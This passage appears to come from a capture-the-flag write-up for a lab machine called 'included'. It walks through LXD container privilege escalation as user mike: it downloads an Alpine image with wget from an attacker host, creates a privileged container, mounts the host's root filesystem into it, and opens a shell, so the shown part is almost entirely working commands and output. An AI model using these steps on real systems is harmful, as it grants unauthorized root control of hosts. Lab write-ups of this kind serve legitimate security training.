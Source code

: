 mike@included:~$ wget http://10.10.16.44:8000/lxd.tar.xz

mike@included:~$ wget http://10.10.16.44:8000/rootfs.squashfs
```

We import image:

```
mike@included:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
```

We create image:

```
mike@included:~$ lxc image list
lxc image list
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
| alpine | 575a8c878248 | no     | Alpinelinux 3.8 x86_64 (20220222_1646) | x86_64 | 1.96MB | Feb 22, 2022 at 5:24pm (UTC) |
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
mike@included:~$ lxc init alpine privesc -c security.privileged=true
lxc init alpine privesc -c security.privileged=true
Creating privesc
```

We add root path.

```
mike@included:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
<st-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

We launch container:

```
mike@included:~$ lxc start privesc
lxc start privesc
mike@included:~$
```

### Root flag

```
mike@included:~$ lxc exec privesc /bin/sh
lxc exec privesc /bin/sh
~ # ^[[46;5R
